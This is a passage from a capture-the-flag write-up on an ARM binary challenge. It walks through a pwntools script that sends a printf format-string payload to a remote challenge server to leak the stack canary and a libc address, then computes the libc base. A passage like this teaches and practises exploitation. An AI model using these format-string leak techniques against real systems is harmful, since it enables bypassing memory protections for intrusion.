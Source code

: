 Yes, I like `printf()` exploits. 

Anyway, we can use this to leak values off the stack. We'll need leaks for libc and for the canary. So, lets build the start of an exploit script and see if we can't find some useful addresses. 

```python
from pwn import *

context.terminal = ['tmux', 'split-window', '-h']

elf = context.binary = ELF('chalarm')
libc = ELF('libc.so.6')
ld = ELF('ld-linux-aarch64.so.1')

#p = process('qemu-aarch64 -g 1234 chal'.split())
#p = process('qemu-aarch64 chal'.split())

p = remote('arm-and-a-leg.gold.b01le.rs', 1337)

p.sendlineafter(b'2. Legs\n', b'1')
p.sendlineafter(b'of?\n', b'1337')
# These are leaks for chal with pie
p.sendlineafter(b'appendage? ', b'%21$p%19$p')

p.recv()
leaks = p.recv().split(b'0x')
# libc_start_main + 152 is at the 21st offset MAKE SURE TO SUBTRACT 152 FROM THE LEAK
libc_start_main_leak = leaks[1]
libc_start_main = int(libc_start_main_leak, 16) - 152

# Canary at 19th offset
canaryleak = leaks[2].split(b'\n')[0]
canary = int(canaryleak, 16)

libc.address = libc_start_main - libc.symbols['__libc_start_main']
```
Above we set up some basic pwntools functionality and then send that `1337` value to satisfy the `worthynes_tester()`. After that, we send in our `printf()` payload to start leaking stuff off the stack. Thenm we parse our leaks, which end up being the `__libc_start_main() + 152` and the canary. We also calculate the base of libc, with the libc that can be extracted from the docker container. Let's have a look in GDB so that you can get a clearer picture of why we chose the `printf()` offsets of `%21$p` and `%19$p`. 
